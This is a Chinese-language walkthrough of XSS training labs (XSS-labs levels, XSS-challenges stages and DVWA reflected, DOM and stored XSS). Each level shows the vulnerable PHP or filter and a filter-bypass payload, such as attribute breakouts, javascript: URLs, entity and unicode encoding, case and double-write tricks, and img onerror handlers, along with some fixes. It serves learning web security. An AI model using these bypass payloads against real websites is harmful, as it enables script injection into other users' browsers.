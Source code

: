 #### Less-1

输入参数为name直接回显，查看源代码，直接在前端代码，为反射性XSS

直接name=<script>alert('xss')</script>

##### 修复

 ``` js
 $str = htmlspecialchars($_GET["name"] , ENT_QUOTES);
 ```

#### Less-2

输入参数，查看源码，内容被传递给服务器上的php文件，处理后又将参数keyword插入到<h2>标签之中以及添加到input的value中

 ```js
 #输入test
 <h2 align=center>没有找到和test相关的结果.</h2><center>
 <input name=keyword value="test">
 ```

h2标签的内容被html编码，因此value处闭合即可

####  Less-3

同L2，但是两处都使用了html编码

```js
 htmlspecialchars($_GET["name"] , ENT_QUOTES);
```

但是此处没有设置第二参数，导致编码会转换双引号，不转换单引号

因此使用单引号闭合即可

#### Less-4

过滤了<>

但是使用on事件即可

#### Less-5

过滤on和<script>

因此使用a标签

```js
"><a href="javascript:alert(/xss/)">alert</a> <"
```

#### Less-6

大小写绕过

#### Less-7

双写绕过

#### Less-8

编码绕过

编码后仍然会被解析

```js
javascript:alert(/xss/)
->
&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3a;&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x2f;&#x78;&#x73;&#x73;&#x2f;&#x29;
#HTML encode
```

#### Less-9

后端检测

``` js
if(false===strpos($str7,'http://'))
{
  echo '<center><BR><a href="您的链接不合法？有没有！">友情链接</a></center>';
        }
else
{
  echo '<center><BR><a href="'.$str7.'">友情链接</a></center>';
}

```

因此需要拼接http://

同时发现过滤了JavaScript，因此需要编码

``` js
#javascript:alert('xss''http://')
&#x6A;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3A;&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;'http://'&#x29;
```

#### Less-10

隐藏表单

``` js
<input name="t_link" value="" type="hidden">
<input name="t_history" value="" type="hidden">
<input name="t_sort" value="" type="hidden">
```

构造payload

``` js
?keyword=test&t_link=test&t_history&t_sort=test
```

发现只有t_sort标签有回显

因此构造payload

``` js
?keyword=test&t_sort=" onclick=alert(/xss/) type="text" ><
```

#### Less-11

隐藏表单

```js
<input name="t_ref"  value="" type="hidden">
```

t_ref的参数值是http请求包中的referer

#### Less-12

隐藏表单

```js
<input name="t_ua"  value="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) 
```

t_ua参数值是uer-agent

#### Less-13

cookie传入隐藏表单标签

```js
<input name="t_cook"  value="" type="hidden">
```

#### Less-14

EXIF

**可交换图像文件格式**（英语：Exchangeable image file format，官方简称**Exif**），是专门为[数码相机](https://zh.wikipedia.org/wiki/数码相机)的照片设定的，可以记录数码照片的属性信息和拍摄数据。可使用鼠标右键进入属性页面查看部分信息。

windows通过右键属性可以修改属性，插入XSS语句

网站/插件读取exif信息时，就会触发payload

#### Less-15

参数上传后插入span标签的ng-include后面

同时参数上传后会被过滤

```js
$str = $_GET["src"];
echo '<body><span class="ng-include:'.htmlspecialchars($str).'"></span></body>';
```

#### Angular JS

- ngular JS的很多参数都是以“ng”开头的，例如ng-app、ng-model、ng-bind等等。
- 在这里，ng-include指令用于包含外部的HTML文件，包含的内容将作为指定元素的子节点。`ng-include` 属性的值可以是一个表达式，返回一个文件名。默认情况下，包含的文件需要包含在同一个域名下。所以这里就用来包含其他关的页面来触发弹窗。其作用原理非常类似于文件包含，比如ng-include'level1.php'

构造payload：

```js
'level1.php?name=<img src=123 οnerrοr=alert(1)>'
```

先被html编码，然后传到level1.php中被解码，然后触发XSS

#### Less-16

```js
level16.php?keyword=<><script>script scripScrIPtt " ' \
输出：
<center><><&nbsp;>&nbsp;&nbsp;scrip&nbsp;t&nbsp;"&nbsp;'&nbsp;\</center>
```

过滤script和\但是没有过滤尖括号

因此使用img标签

```js
<img asrc=x onerror=alert(1)>
```

发现也过滤空格

##### 空格绕过

- %0a 换行
- %0d 回车

```js
<img%0asrc=x%0aonerror=alert(1)>
```

#### Less-17

标签在<embed>属性中，该标签支持一些事件属性

payload:

```js
?arg01=a&arg02=b οnmοuseοver=alert(1)
```

#### Less-18

同17

#### Less-19，20

flashxss



### XSS-challenges

#### stage3

国家参数通过下拉菜单选择

可以burp抓包从而实现自定义

#### stage5

前端maxlength长度限制，可以修改

#### stage8

什么是javascript伪协议？下面的代码：

```js
<a href=javascript:alert('XSS')
```

这道题目的源码

```php
<?php 
ini_set("display_errors", 0);
$str = strtolower($_GET["keyword"]);
$str2=str_replace("<script","<scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form action=level5.php method=GET>
<input name=keyword  value="'.$str3.'">
<input type=submit name=submit value=搜索 />
</form>
</center>';
?>
```

stryolower 全部转换成小写

str_replace过滤了<script和on

因此闭合双引号和标签，然后使用伪协议

paylaod

```js
"><a href=javascript:alert('XSS') //
```

#### stage10

domain被过滤

双写/base64编码绕过

#### stage11

过滤script

绕过：插入不可见字符/unicode编码

```js
"><a href="javas&#09cript:alert(document.domain);">xss</a>"><a
```

#### stage12

IE浏览器，两个反引号可以闭合双引号

#### stage15

过滤<>

##### 绕过方式1：16进制绕过

<是3c，要让js能识别就要在前面加上\x，变成\x3c

##### 绕过方式2：unicode编码绕过

<变成3c，前面加上\u00，js可以识别，变成\u003c

## **XSS**

### 1.反射型XSS

#### **low**

没有任何措施 直接<script>触发即可

#### **medium**

过滤了<script>直接嵌套，大小写，或者使用其他on事件 

#### **high**

```js
$name=preg_replace('/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i','',$_GET['name']);
```

正则规则完善了，不能使用大小写，点匹配任意字符，*表示0次以上

#### impossible

```js
$name=htmlspecialchars($_GET['name']);
```

经过了html实体化，并且放在<pre>标签中，无法绕过

### **2.DOM XSS**

#### **low**

```php
varlang=document.location.href.substring(document.location.href.indexOf("default=")+8);  
document.write("<option value='"+ lang + "'>" + $decodeURI(lang) + "</option>");  
```

lang变量通过document.location.href获取，输出在option标签中

因此直接payload

```php
?default=English <script>alert('XSS')</script>`  
```

#### **medium**

 ```js
 # Do not allow script  tags      
 if  (stripos ($default, "<script") !== false) {        
     header ("location:  ?default=English");     
     exit;    
 }  
 ```

通过strpos()函数查找<script字符串在default变量中第一次出现的位置

如果查找到那么替换location后面的参数为?default=English

相当于过滤了<script>

利用input事件弹窗即可 paylaod1：

```js
?default=English<input onclick=alert('XSS') />  
```

也可以闭合标签使用<img>闭合 payload2：

```js
?default=English<input onclick=alert('XSS') />  
```



#### **high**

```php
<?php     
// Is there any input?  
if ( array_key_exists( "default",  $_GET ) && !is_null ($_GET[ 'default' ]) ) {        
    # White list the allowable languages      
    switch ($_GET['default']) {       
        case "French":        
        case "English":       
        case "German":       
        case "Spanish":        
            # ok        
            break;        
        default:        
            header ("location: ?default=English");          
            exit;    
    }  
}     
?>  
```



使用白名单对default传参进行了过滤

可以自定义另一个变量bypass

payload1：

 ```js 
 ?default=English&a=</option></select><img src=x onerror=alert('XSS')>  
 ?default=English&a=<input  onclick=alert('XSS')/> 
 ```

也可以使用#

##### #锚点

- [www.example.com/index.html#location1](http://www.example.com/index.html)代表着这个网页的location1位置，会将网页滚到location1位置
- 发送http请求的时候会忽略#

因此构造payload2：

```js
?default=English#</option></select><img src=x onerror=alert('XSS')>  
?default=English#<input onclick=alert('XSS')/>  
```

#### impossible

不进行urldecode 所以自然失效

### 3.存储型XSS

#### **low**

没有过滤，两个参数xss

##### medium

```php
//source code  
<?php     
    
if( isset( $_POST[ 'btnSign' ] ) ) {      
    // Get input      
    $message = trim( $_POST[ 'mtxMessage' ] );      
    $name  = trim( $_POST[ 'txtName' ] );         
    // Sanitize message input      
    $message = strip_tags( addslashes( $message ) );      
    $message = ((isset($GLOBALS["___mysqli_ston"]) &&
is_object($GLOBALS["___mysqli_ston"])) ? 
mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $message ) : 
((trigger_error("[MySQLConverterToo]  Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));      
    $message = htmlspecialchars( $message );         
    
    // Sanitize name input      
    $name = str_replace( '<script>', '', $name );      
    $name = ((isset($GLOBALS["___mysqli_ston"]) && 
is_object($GLOBALS["___mysqli_ston"])) ? 
mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $name ) : 
((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string()  call! This code does not work.", E_USER_ERROR)) ? "" : ""));         
    // Update database      
    $query = "INSERT INTO guestbook ( comment, name ) VALUES (  '$message', '$name' );";      
    $result = mysqli_query($GLOBALS["___mysqli_ston"], $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );         
    //mysql_close();  
}     
?>  
```

message深度过滤，但是name只过滤了<script>，简单的过滤双写大小写就可以绕过了

同时named的前端input标签输入文本框限制了长度 检查元素调大就可以了

此处可以学习一些过滤的常见函数

payload

```js
Name:<img src=x onerror=alert('XSS')>  Message:whatever  
```

#### high

#### 同medium，但是采取更严格的正则匹配，但是采用其他事件触发即可**

payload:

```js
Name:<img src=x onerror=alert('XSS')>  Message:whatever  
```

#### 



 

 